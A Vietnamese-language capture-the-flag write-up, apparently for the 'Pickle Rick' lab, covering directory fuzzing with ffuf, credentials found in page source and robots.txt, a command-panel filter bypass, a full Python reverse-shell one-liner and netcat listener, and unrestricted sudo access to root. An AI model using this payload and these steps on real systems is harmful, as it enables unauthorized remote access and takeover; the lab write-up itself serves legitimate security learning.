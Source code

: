 # PICKLE RICK

- Truy cập vào bài, ta thấy được trang web như sau

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled.png)

- Có vẻ như không có gì khai thác nhiều ở đây, mình sẽ thử F12 view source xem thử có gì thú vị hơn không thì có vẻ như mình đã tìm được Username , hmmm nếu có username thì chắc hẳn phải có tồn tại một trang login, lúc này mình dùng tool scan để tìm xem có directory ẩn nào không!

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%201.png)

- Ở đây mình sử dụng FFUF

payload scan: `ffuf -u http://10.10.191.68/FUZZ -w common.txt -e .php,.txt,.html -t 50 -fc 403`

nếu bạn không hiểu payload scan của mình là gì, bạn có thể tham khảo trên mạng nhé.

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%202.png)

- Sau khi scan xong, mình tiến hành truy cập vào `/robots.txt`

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%203.png)

- Có vẻ như đây là mật khẩu, tiến hành truy cập vào /login.php và thử đăng nhập

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%204.png)

- Và có vẻ như mình đã vào được, xuất hiên 1 số chức năng khác tuy nhiên ở đây ta đặc biệt chú ý đến Comman Panel, mình thử dùng ls thì có vẻ như đích đã đến!, tuy nhiên mọi chuyện lại không đơn giản như vậy 😟

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%205.png)

- Khi mình dùng cat thì có vẻ như bài này đã chặn mất

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%206.png)

- Tuy nhiên trong linux, ta có rất nhiều cách để đọc, thay vì cat mình đổi sang thử dùng less

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%207.png)

- Vậy là ta đã có được flag đầu tiên, tiếp tục tìm cái thứ 2 thì mình được bài hint như sau

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%208.png)

- Sau khi dạo 1 vòng trang web này mình mình chả thấy có gì để khai thác tiếp, có vẻ như lúc này ta cần phải dùng đến kĩ thuật Reverse Shell rồi, nếu bạn chưa biết có thể tham khảo tại [ĐÂY](https://www.youtube.com/watch?v=S99C5jNkOgA&ab_channel=TheLinuxPoint).
- Ở đây mình thay địa chỉ ip và port thành như hình nhé, nếu bạn làm thì hãy thay ip của bạn và port tùy thích.

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")’
```

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%209.png)

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%2010.png)

- Mình dùng `nc -lvp 444` lệnh này sẽ mở cổng 444 trên máy và lắng nghe các kết nối đến. Netcat được dùng phổ biến để điều khiển socket TCP/UDP và được dùng trong revertShell
- Lúc này ta đã kết nối được, ta tiến hành tìm flag, trong bài này thì flag 2 được dấu ở `/home/rick`

![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%2011.png)

- Ở đây mình dùng sudo -l để kiểm tra xem tập tin nào chạy dưới quyền root, tuy nhiên theo hình dưới thì ta có thể dùng sudo 1 cách thoải mái mà không bị giới hạn
    
    ![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%2012.png)
    
    - và flag cuối cùng ở `/root`
    
    ![Untitled](PICKLE%20RICK%20d26ebb9346c64c74be1f421f43178dee/Untitled%2013.png)